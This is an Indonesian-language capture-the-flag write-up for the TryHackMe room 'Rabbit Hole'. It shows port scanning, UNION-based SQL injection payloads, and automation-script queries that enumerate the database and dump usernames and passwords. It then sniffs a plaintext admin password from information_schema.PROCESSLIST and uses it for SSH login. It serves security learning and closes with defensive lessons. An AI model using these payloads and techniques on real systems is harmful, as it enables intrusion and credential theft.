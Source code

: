 # Injection - Soal TryHackMe: Rabbit Hole

## 1. Soal
Eksploitasi SQL Injection pada room **Rabbit Hole (TryHackMe)** hingga mendapatkan akses ke server (SSH) dan capture flag.

---

## 2. Link Resource
- [TryHackMe: Rabbit Hole Room](https://tryhackme.com/room/rabbithole)
- [SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [Information Schema MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html)
- [Burp Suite](https://portswigger.net/burp)

---

## 3. Jawaban + Bukti

### Step 1: Initial Reconnaissance
- Scan port untuk menemukan service:

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.173.12
```

- Hasil:  
  - `22/tcp` → SSH  
  - `80/tcp` → HTTP (login/register page dengan fitur “Last Logins”).  

![Recon Screenshot](step1.png)

---

### Step 2: SQL Injection Detection
- Uji coba payload:

```sql
' UNION SELECT 1;--
```

- Error muncul → column mismatch.  
- Payload valid:

```sql
' UNION SELECT 1,2;--
```

→ Mengonfirmasi ada 2 kolom.  

![SQLi Detect](step2.png)

---

### Step 3: Extract Database Names
- Gunakan automation script:

```bash
python3 sqli_automate2.py 'http://10.10.173.12/'   'SELECT group_concat(schema_name) FROM information_schema.schemata'
```

- Output:

```
information_schema,web
```

---

### Step 4: Extract Table Names
```bash
python3 sqli_automate2.py 'http://10.10.173.12/'   'SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="web"'
```

- Output:

```
users,logins
```

---

### Step 5: Extract Columns
```bash
python3 sqli_automate2.py 'http://10.10.173.12/'   'SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema="web" AND table_name="users"'
```

- Output:

```
id,username,password,group
```

---

### Step 6: Dump User Data
```bash
python3 sqli_automate2.py 'http://10.10.173.12/'   'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users WHERE id<4'
```

- Output:

```
1:admin:0e3ab8...:admin
2:foo:abc123:user
3:bar:iloveyou:user
```

---

### Step 7: Processlist Exploit
- Pantau query yang sedang berjalan:

```bash
python3 processlist_extractor.py 'http://10.10.173.12/'   'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
```

- Hasil: terlihat query login admin dengan **MD5(password)**.  
- Contoh:

```sql
SELECT * FROM users WHERE username='admin' AND password=md5('fEeFBqOXBOLmjpTt0B3LN...')
```

- Password plaintext berhasil diambil dari dalam fungsi `md5()`.

---

### Step 8: SSH Login
```bash
ssh admin@10.10.173.12
```

- Password: hasil dari step sebelumnya.  

![SSH Access](step8.png)

---

### Step 9: Capture the Flag
```bash
ls
cat flag.txt
```

- Flag ditemukan:  

```
THM{**********************************************}
```

![Flag Screenshot](flag.png)

---

## 4. Refleksi
- **Berhasil**: eksploitasi SQLi → enumerasi schema → dump data → sniffing query dengan `processlist` → login SSH.  
- **Catatan**: Challenge ini unik karena menggunakan **second-order SQLi** & abuse dari `information_schema.processlist`.  
- **Pembelajaran**: pentingnya prepared statement, pembatasan hak akses DB user, dan monitoring query sensitif.
